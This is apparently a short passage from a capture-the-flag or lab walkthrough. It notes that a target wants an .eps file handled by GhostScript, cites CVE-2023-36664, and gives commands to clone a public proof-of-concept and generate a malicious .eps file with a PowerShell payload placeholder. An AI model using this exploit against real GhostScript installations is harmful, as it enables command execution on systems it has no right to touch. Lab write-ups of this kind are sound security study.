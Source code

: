 - As we can see from the email:

![image27](../resources/4715ad42f7624e1199b8ca5dfbc74267.png)

He wants a .eps file that will be processed by GhostScript

- There is a recent CVE for GhostScript:
<https://vsociety.medium.com/cve-2023-36664-command-injection-with-ghostscript-poc-exploit-97c1badce0af>

<https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection>

```bash
git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
cd CVE-2023-36664-Ghostscript-command-injection
python3 CVE_2023_36664_exploit.py --generate --payload '<powershell base64 payload>' --filename new_design --extension eps

```

![image28](../resources/f85608ef86e444d5b6385e4532a848d8.png)
